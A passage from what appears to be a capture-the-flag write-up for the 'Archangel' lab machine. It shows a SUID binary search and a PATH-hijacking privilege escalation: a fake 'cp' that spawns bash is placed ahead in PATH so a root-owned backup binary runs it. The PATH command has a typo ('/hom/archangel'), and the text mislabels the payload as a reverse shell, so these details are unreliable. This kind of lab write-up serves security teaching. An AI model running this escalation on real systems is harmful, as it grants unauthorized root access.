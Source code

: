 `find / -user root -perm /4000 -exec ls -al {} \; 2>/dev/null` .

And a binary stuck out: `/home/archangel/secret/backup` - when we run file against it, it is an ELF executable binary.

Lets run `strings` against it.

There is a `cp /home/user/archangel/myfiles/* /opt/backupfiles` - among the results.

This means, when the `/home/archangel/secret/backup` binary is executed by us (we have execute permission), it does this: `cp /home/user/archangel/myfiles/* /opt/backupfiles`

Looking at this we see it is calling the `cp` binary and also not the absolute path like `/bin/cp` , this means we can exploit this by creating a fake `cp` binary that executes a reverse shell when its called, and also adding a new path to the PATH env variable.

#### exploitation

```
# in archangel home dir.
echo '/bin/bash' > cp && chmod 777 cp 

# add the path to the PATH env variable.
export PATH=/hom/archangel:$PATH

# now we execute the binary.
/home/archangel/secret/backup

# and we get root.
```

<figure><img src=".gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Done.

